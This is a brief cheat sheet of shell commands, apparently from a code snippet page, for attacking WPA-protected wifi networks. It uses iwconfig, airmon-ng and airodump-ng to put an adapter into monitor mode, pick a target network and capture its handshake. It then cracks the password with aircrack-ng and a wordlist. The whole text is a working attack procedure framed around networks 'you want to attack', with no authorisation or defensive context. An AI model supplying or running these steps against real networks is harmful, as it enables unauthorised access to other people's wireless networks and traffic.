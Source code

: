 # lists the network adaptors available and their properties. Note the name of your network adaptor that support monitoring, e.g., wlan1:
            iwconfig
# Change adaptor into monitor mode:
            airmon-ng start wlan1
# See the new adaptor:
            iwconfig
# Search for all wifi available for you to attack and mark the channel and mac address of the wifi you want to attack:
            airodump-ng wlan1mon 
# Capture wpa handshake: (EAPOL)
            airodump-ng -c <channel-no> -w <name-of-output-file> -d <mac-address> wlan1mon : 
# Crack the password:
            aircrack-ng output-above.cap -w wordlist.txt
